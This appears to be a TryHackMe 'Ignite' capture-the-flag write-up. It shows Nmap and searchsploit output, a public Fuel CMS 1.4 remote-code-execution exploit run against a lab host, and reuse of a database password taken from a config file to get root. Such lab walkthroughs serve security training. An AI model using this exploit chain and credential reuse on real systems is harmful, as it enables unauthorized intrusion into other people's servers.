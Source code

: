 # TryHackMe: Ignite

## Initial Enumeration

First, let's start with a basic Nmap scan to discover open ports and services:

```bash
nmap -A -p- -T4 10.48.144.132
Starting Nmap 7.95 ( https://nmap.org ) at 2025-11-01 10:48 +06
Nmap scan report for 10.48.144.132
Host is up (0.081s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18
| http-robots.txt: 1 disallowed entry
|_/fuel/
```

### Key Findings:
- Only port 80 is open (HTTP)
- Apache 2.4.18 web server
- Discovered `/fuel/` in robots.txt

## Web Enumeration

Upon visiting port 80, we discovered:
- Default installation page of Fuel CMS (version 1.4)
- Admin panel URL with default credentials
- Successfully logged in with default credentials (unchanged)

## Vulnerability Assessment

Searching for known vulnerabilities in Fuel CMS 1.4:

```bash
searchsploit fuel CMS 1.4
-------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                        |  Path
-------------------------------------------------------------------------------------- ---------------------------------
fuel CMS 1.4.1 - Remote Code Execution (1)                                            | linux/webapps/47138.py
Fuel CMS 1.4.1 - Remote Code Execution (2)                                            | php/webapps/49487.rb
Fuel CMS 1.4.1 - Remote Code Execution (3)                                            | php/webapps/50477.py
Fuel CMS 1.4.13 - 'col' Blind SQL Injection (Authenticated)                           | php/webapps/50523.txt
Fuel CMS 1.4.7 - 'col' SQL Injection (Authenticated)                                  | php/webapps/48741.txt
Fuel CMS 1.4.8 - 'fuel_replace_id' SQL Injection (Authenticated)                      | php/webapps/48778.txt
-------------------------------------------------------------------------------------- ---------------------------------
```

### Locating the Exploit

```bash
searchsploit -p 47138
  Exploit: fuel CMS 1.4.1 - Remote Code Execution (1)
      URL: https://www.exploit-db.com/exploits/47138
     Path: /usr/share/exploitdb/exploits/linux/webapps/47138.py
    Codes: CVE-2018-16763
```

## Initial Access

Testing the RCE exploit:

```bash
python3 /usr/share/exploitdb/exploits/php/webapps/50477.py --url http://10.10.160.108/
[+]Connecting...
Enter Command $id
systemuid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### Note on Command Execution
The initial exploit has a limitation where commands run independently and don't maintain state. For example:

```bash
Enter Command $pwd
system/var/www/html

Enter Command $cd /home
system

Enter Command $pwd
system/var/www/html
```

To overcome this limitation, a custom modified version of the exploit was created and uploaded.\
Download and run.

## Privilege Escalation

1. Ran LinPEAS for system enumeration
2. Found interesting configuration file: `/var/www/html/fuel/application/config/database.php`
3. Retrieved database credentials from the config file:

```php
$db['default'] = array(
        'dsn'   => '',
        'hostname' => 'localhost',
        'username' => 'root',
        'password' => 'REDACTED',
        'database' => 'fuel_schema',
        'dbdriver' => 'mysqli',
        'dbprefix' => '',
        'pconnect' => FALSE,
        'db_debug' => (ENVIRONMENT !== 'production'),
        'cache_on' => FALSE,
        'cachedir' => '',
        'char_set' => 'utf8',
        'dbcollat' => 'utf8_general_ci',
        'swap_pre' => '',
        'encrypt' => FALSE,
        'compress' => FALSE,
        'stricton' => FALSE,
        'failover' => array(),
        'save_queries' => TRUE
)
```

### Root Access
Successfully switched to root using the discovered password and accessed the root flag.

## Flags
- User flag location: `/home/www-data/`
- Root flag: Accessible after privilege escalation
